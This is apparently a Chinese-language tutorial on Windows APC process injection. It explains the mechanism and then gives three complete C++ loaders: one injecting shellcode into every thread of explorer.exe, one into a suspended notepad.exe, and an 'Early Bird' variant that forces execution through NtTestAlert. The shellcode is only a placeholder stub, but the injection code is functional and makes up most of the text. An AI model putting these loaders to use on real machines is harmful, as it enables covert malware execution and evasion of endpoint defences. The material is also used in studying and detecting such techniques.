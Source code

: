 # APC Inject

## 原理

&[ensp](https://so.csdn.net/so/search?q=ensp&spm=1001.2101.3001.7020);&[ensp](https://so.csdn.net/so/search?q=ensp&spm=1001.2101.3001.7020);APC是一个简称，即“异步过程调用”。APC 注入的原理是利用当线程被唤醒时，APC 中的注册函数会被执行，并以此去执行 DLL 的加载代码，进而完成 DLL 注入的目的。在线程下一次被调度的时候，就会执行 APC 函数，APC 有两种形式，由系统产生的 APC 称为内核模式 APC，由应用程序产生的 APC 被称为用户模式 APC。

## 实现流程

1. 当某个线程执行到 Sleep 或 WaitForSingleObject 时，系统就会产生一个软中断。
2. 当线程再次被唤醒时，此线程会首先执行 APC 队列中的被注册的函数。
3. 利用 QueueUserAPC 可以在软中断时向线程的 APC 队列插入一个函数指针。

## 缺点

&[ensp](https://so.csdn.net/so/search?q=ensp&spm=1001.2101.3001.7020);&[ensp](https://so.csdn.net/so/search?q=ensp&spm=1001.2101.3001.7020);当用户模式 APC 队列时，除非线程处于可警报状态，否则不会定向线程调用 APC 函数。

&[ensp](https://so.csdn.net/so/search?q=ensp&spm=1001.2101.3001.7020);&[ensp](https://so.csdn.net/so/search?q=ensp&spm=1001.2101.3001.7020);线程处于可警报状态后，线程将按先进先出 （FIFO） 顺序处理所有挂起的 APC，等待操作将返回WAIT_IO_COMPLETION。

&[ensp](https://so.csdn.net/so/search?q=ensp&spm=1001.2101.3001.7020);&[ensp](https://so.csdn.net/so/search?q=ensp&spm=1001.2101.3001.7020);线程通过使用 SleepEx 函数、SignalObjectAndWait 函数、WaitForSingleObjectEx 函数、WaitForMultipleObjectsEx 函数或 MsgWaitForMultipleObjectsEx 函数进入可报警状态。

https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc

## 完整代码

### 1.OpenProcess 注入 explorer

```c++
#include "pch.h"
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
	unsigned char shellcode[] =
			"\xfc\x48";

	HANDLE	hProcessHandle;
	HANDLE	hThreadHandle;
	HANDLE	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS | TH32CS_SNAPTHREAD, 0);
	PROCESSENTRY32	processEntry	= { sizeof(PROCESSENTRY32) };
	THREADENTRY32	threadEntry		= { sizeof(THREADENTRY32) };
	std::vector<DWORD> vThreadIds;
	SIZE_T ShellcodeSize = sizeof(shellcode);
	
	// 查找 explorer.exe 进程 ID
	if (Process32First(hSnapshot, &processEntry)) {
		while (_wcsicmp(processEntry.szExeFile, L"explorer.exe") != 0) {
			Process32Next(hSnapshot, &processEntry);
		}
	}

	// 获取目标进程句柄
	hProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, processEntry.th32ProcessID);
	// 在 explorer.exe 进程内存空间中分配内存
	LPVOID shellAddress = VirtualAllocEx(hProcessHandle, NULL, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(hProcessHandle, shellAddress, shellcode, ShellcodeSize, NULL);

	// 查找 explorer.exe 所有线程
	if (Thread32First(hSnapshot, &threadEntry)) {
		do {
			if (threadEntry.th32OwnerProcessID == processEntry.th32ProcessID) {
				vThreadIds.push_back(threadEntry.th32ThreadID);
			}
		} while (Thread32Next(hSnapshot, &threadEntry));
	}

	for (DWORD dThreadId : vThreadIds) {
		// 根据线程 Tid，打开线程句柄
		hThreadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, dThreadId);
		// 给 APC 队列中插入回调函数
		// 在调用 QueueUserAPC 函数时指定此地址。PAPCFUNC 类型定义指向此回调函数的指针。
		QueueUserAPC((PAPCFUNC)apcRoutine, hThreadHandle, NULL);
		Sleep(1000 * 3);
	}

	return 0;
}
```

### 2.CreateProcess 注入 notepad

```
#include <Windows.h>
int main()
{
	unsigned char shellcode[] =
		"\xfc\x48";

	LPCSTR lpApplication = "C:\\Windows\\System32\\notepad.exe";
	SIZE_T ShellcodeSize = sizeof(shellcode);
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };
	// 以挂起状态创建 notepad.exe
	CreateProcessA(lpApplication, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	HANDLE hProcess = pi.hProcess;
	HANDLE hThread = pi.hThread;

	// 在 notepad.exe 进程内存空间中分配内存
	LPVOID shellAddress = VirtualAllocEx(hProcess, NULL, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	PTHREAD_START_ROUTINE ptApcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(hProcess, shellAddress, shellcode, ShellcodeSize, NULL);

	// 给 APC 队列中插入回调函数
	// 在调用 QueueUserAPC 函数时指定此地址。PAPCFUNC 类型定义指向此回调函数的指针。
	QueueUserAPC((PAPCFUNC)ptApcRoutine, hThread, NULL);

	// 恢复线程
	ResumeThread(hThread);

	return 0;
}
```



# Early Bird APC Inject

## 原理

&[ensp](https://so.csdn.net/so/search?q=ensp&spm=1001.2101.3001.7020);&[ensp](https://so.csdn.net/so/search?q=ensp&spm=1001.2101.3001.7020);由于线程初始化时会调用 ntdll 未导出函数 NtTestAlert，NtTestAlert 是一个检查当前线程的 APC 队列的函数，如果有任何队列作业，它会清空队列。当线程启动时，NtTestAlert 会首先被调用。因此，如果在线程的开始状态下对 APC 进行操作，调用 NtTestAlert 函数就可以确保执行我们的 shellcode。

## 实现流程

1. 在当前进程中分配一块内存空间
2. 往申请的空间内写入 shellcode
3. 将 APC 插入到当前线程
4. 调用 NtTestAlert

```c++
#include <Windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

int main()
{
	unsigned char shellcode[] =
		"\xfc\x48";

	myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
	SIZE_T ShellcodeSize = sizeof(shellcode);
	// 分配内存
	LPVOID shellAddress = VirtualAlloc(NULL, ShellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	// 调用 WriteProcessMemory 写入分配的内存中的 Shllcode
	WriteProcessMemory(GetCurrentProcess(), shellAddress, shellcode, ShellcodeSize, NULL);

	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	// 给 APC 队列中插入回调函数
	QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
	// 调用 NtTestAlert 函数检查当前线程的 APC 队列，如果有任何队列作业，清空队列，执行 shellcode
	testAlert();

	return 0;
}
```

